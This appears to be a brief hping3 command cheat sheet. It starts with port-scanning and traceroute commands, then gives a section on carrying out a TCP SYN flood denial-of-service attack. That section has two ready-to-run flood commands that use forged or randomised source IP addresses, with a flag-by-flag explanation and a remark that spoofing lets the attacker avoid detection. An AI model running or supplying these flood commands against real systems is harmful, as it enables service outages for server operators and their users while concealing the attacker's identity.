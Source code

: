 #### Port Scanning
sudo hping3 -S <ip_address> -p <port> -c <number_of_packets>  

#### Traceroute using Hping3
sudo hping3 --traceroute -V -1 <ip_address>

  
#### Perform A TCP Syn Flood Attack With Kali Linux & Hping3
1. sudo hping3 -a <FAKE IP> <target> -S -q -p 80 --faster 
2. hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.225.128  
  
We’re sending 15000 packets (-c 15000) at a size of 120 bytes (-d 120) each. We’re specifying that the SYN Flag (-S) should be enabled, with a TCP window size of 64 (-w 64). To direct the attack to our victum’s HTTP web server we specify port 80 (-p 80) and use the --flood flag to send packets as fast as possible. As you’d expect, the --rand-source flag generates spoofed IP addresses to disguise the real source and avoid detection but at the same time stop the victim’s SYN-ACK reply packets from reaching the attacker.

